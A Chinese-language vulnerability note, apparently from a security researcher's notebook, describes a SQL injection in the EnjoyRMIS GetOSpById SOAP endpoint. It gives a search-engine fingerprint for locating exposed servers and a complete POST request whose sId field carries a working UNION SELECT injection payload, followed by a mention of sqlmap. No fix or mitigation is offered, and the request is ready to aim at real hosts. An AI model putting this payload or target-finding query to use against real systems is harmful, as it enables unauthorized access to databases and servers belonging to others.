 # EnjoyRMIS GetOSpById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/OEK9tkHunYY08in-/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-970499.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/APS/CWSFinanceCommon.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOSpById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOSpById xmlns="http://tempuri.org/">
      <sId>string' UNION SELECT NULL,NULL,NULL,NULL,(select @@version),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- YQmj</sId>
    </GetOSpById>
  </soap:Body>
</soap:Envelope> 
```

![1700576430999-14827fbf-6822-4dd6-a406-10bab39365a4.png](./img/OEK9tkHunYY08in-/1700576430999-14827fbf-6822-4dd6-a406-10bab39365a4-024610.png)

sqlmap

![1700576440841-41c461df-14f0-4f7d-92c9-eb8d6faa0e2b.png](./img/OEK9tkHunYY08in-/1700576440841-41c461df-14f0-4f7d-92c9-eb8d6faa0e2b-231689.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zpzm4hme69hpf525>